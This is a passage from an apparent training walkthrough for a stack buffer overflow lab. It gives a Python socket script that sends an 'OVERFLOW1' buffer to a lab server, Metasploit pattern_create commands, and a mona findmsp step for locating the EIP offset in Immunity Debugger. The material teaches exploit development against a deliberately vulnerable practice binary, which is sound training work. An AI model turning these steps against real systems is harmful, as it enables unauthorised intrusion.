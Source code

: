 ## Crash Replication & Controlling EIP

﻿Create another file on your Kali box called exploit.py with the following contents:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the `-l` value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`  

If you are using the AttackBox, use the following path to `pattern_create.rb` instead (also ensure to change the `-l` value):

`/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

`!mona findmsp -distance 600`

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).
